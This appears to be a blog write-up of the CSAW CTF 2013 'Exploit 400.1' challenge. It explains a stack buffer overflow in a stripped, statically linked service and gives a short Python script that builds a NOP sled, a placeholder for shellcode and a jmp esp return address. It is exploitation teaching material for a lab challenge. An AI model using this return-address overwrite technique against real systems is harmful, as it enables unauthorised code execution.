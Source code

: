 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 400.1"
---
```


This challenge was a service reading prompting some data, doing some stuff and then exiting. The file was stripped, was partly written in assembly and staticly linked. After doing some test we found that inputting a lot of data would result in a segmentation fault. If we wrote enough data, we could actually rewrite the return value and jump anywhere in the code. All we needed was then to jump on our shellcode in the buffer.

There were some `jmp esp` in the file we could use, so we just had to use it to jump in the stack and execute our shellcode. $esp wasn't pointing to the buffer, but by writing a nop slope and then the shellcode right before the return adresse, a jump on $esp would lead to our shellcode.

The exploit script was:
```
#!/usr/bin/env python

from struct import pack
shellcode = ""

def exploitffe4():
  ret_off = 417
  off_send = pack("I", 0x080DE74F) # jmp esp location
  payload = '\x90' * (ret_off - len(shellcode)) + shellcode + off_send
  print(payload)

exploitffe4()
```
